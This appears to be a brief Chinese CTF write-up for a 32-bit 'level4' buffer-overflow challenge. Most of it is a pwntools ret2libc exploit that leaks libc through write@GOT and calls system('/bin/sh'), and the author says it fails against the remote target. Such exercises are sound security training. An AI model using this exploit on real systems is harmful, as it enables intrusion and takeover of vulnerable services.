

- `32`位`libc`泄露
- `ret2libc`

1. 存在漏洞函数`vulnerable_function`变量`buf`存在溢出
2. 常规`32`位泄露`libc`

```python
from pwn import *
io = process('./level4')
#context.log_level = 'debug'
elf = ELF('./level4')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#io = gdb.debug('./level4','break vulnerable_function')
padding = b'A'*(0x88+0x4)
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['vulnerable_function'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.send(payload1)
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload2 = padding + p32(sys_addr) + p32(0) + p32(bin_sh_addr)
io.send(payload2)
io.interactive()
```

不知道为什么,本地打通了但是远程泄露的`libc`有点问题,打不通,还是菜
